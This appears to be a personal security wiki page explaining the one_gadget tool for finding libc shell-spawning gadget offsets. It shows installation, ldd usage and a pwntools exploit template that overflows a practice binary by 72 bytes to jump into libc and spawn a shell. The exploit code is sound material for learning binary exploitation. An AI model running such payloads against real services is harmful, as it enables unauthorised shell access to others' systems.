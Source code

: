 ```yaml
---
description: 08/25/2023
---
```


# ONE\_GADGET

{% embed url="https://github.com/david942j/one_gadget" %}

## Installation

Install `ruby-rubygems` if you don't already have it:

```
sudo apt install ruby-rubygems
```

Install `one_gadget`:

```
gem install one_gadget
```

## Usage

Find `libc` library:

```
ldd <binary>

 linux-vdso.so.1 (0x00007ffd3f71f000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7029d40000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7029f74000)
```

`libc` library:

```
/lib/x86_64-linux-gnu/libc.so.6
```

Using one\_gadget:

```
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We end up getting a few offsets to work with</p></figcaption></figure>

So, `libc base + offset`

This will be enough to get a shell under certain restraints.

You can take a look in the registers at the time of execution in `gdb` and see if the restraints are met and if not, you will not have success.

This script will help you with this, you will see the `libc` location and the offset being added to it of the gadget:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401179
continue
'''.format(**locals())


# Binary filename
exe = './secureserver'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Lib-c offsets, found manually (ASLR_OFF)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# POP RDI gadget (found with ropper)
ret = 0x401016
pop_rdi = 0x40120b

# How many bytes to the instruction pointer (RIP)?
padding = 72

# Payload to spawn shell
payload = flat(
    asm('nop') * padding,
    libc.address + 0xebcf8
)

# Write payload to file
write('payload', payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

You can see `libc.address + offset`.
